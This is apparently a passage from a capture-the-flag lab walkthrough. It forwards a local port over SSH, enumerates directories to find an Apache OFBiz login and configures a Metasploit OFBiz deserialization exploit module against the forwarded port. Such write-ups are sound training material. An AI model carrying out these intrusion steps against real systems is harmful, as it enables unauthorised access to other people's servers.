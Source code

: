 ```
udp        0      0 127.0.0.1:161           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:41515           0.0.0.0:*                           -
```

Seems like something is running on Port 8443, however we can only access it locally so we need to portforward it:

```
ssh marcus@10.129.169.137 -L 8443:127.0.0.1:8443
```

Enumerating the local port now gives us a couple of directories:
```
/images               (Status: 302) [Size: 0] [--> /images/]
/catalog              (Status: 302) [Size: 0] [--> /catalog/]
/content              (Status: 302) [Size: 0] [--> /content/]
/common               (Status: 302) [Size: 0] [--> /common/] 
/ar                   (Status: 302) [Size: 0] [--> /ar/]     
/ebay                 (Status: 302) [Size: 0] [--> /ebay/]   
/marketing            (Status: 302) [Size: 0] [--> /marketing/]
/ecommerce            (Status: 302) [Size: 0] [--> /ecommerce/]
/passport             (Status: 302) [Size: 0] [--> /passport/] 
/ap                   (Status: 302) [Size: 0] [--> /ap/]       
/example              (Status: 302) [Size: 0] [--> /example/]  
/accounting           (Status: 302) [Size: 0] [--> /accounting/]
/projectmgr           (Status: 302) [Size: 0] [--> /projectmgr/]
/webtools             (Status: 302) [Size: 0] [--> /webtools/]  
/bi                   (Status: 302) [Size: 0] [--> /bi/]        
/myportal             (Status: 302) [Size: 0] [--> /myportal/]  
/facility             (Status: 302) [Size: 0] [--> /facility/]  
/manufacturing        (Status: 302) [Size: 0] [--> /manufacturing/]
/sfa                  (Status: 302) [Size: 0] [--> /sfa/]          
/solr                 (Status: 302) [Size: 0] [--> /solr/]         
/humanres             (Status: 302) [Size: 0] [--> /humanres/]     
/contentimages        (Status: 302) [Size: 0] [--> /contentimages/]
/partymgr             (Status: 302) [Size: 0] [--> /partymgr/]     
/ordermgr             (Status: 302) [Size: 0] [--> /ordermgr/]     
/workeffort           (Status: 302) [Size: 0] [--> /workeffort/]
```

Most of them lead to an login form of Apache OFBiz: https://127.0.0.1:8443/content/control/main

For which a metasploit module exists:

```
Module options (exploit/linux/http/apache_ofbiz_deserialization):                                                                                                                                                                            
                                                                                                                                                                                                                                             
   Name       Current Setting  Required  Description                                                                                                                                                                                         
   ----       ---------------  --------  -----------                                                                                                                                                                                         
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]                                                                                                                                        
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'                                                                                                                  
   RPORT      8443             yes       The target port (TCP)                                                                                                                                                                               
```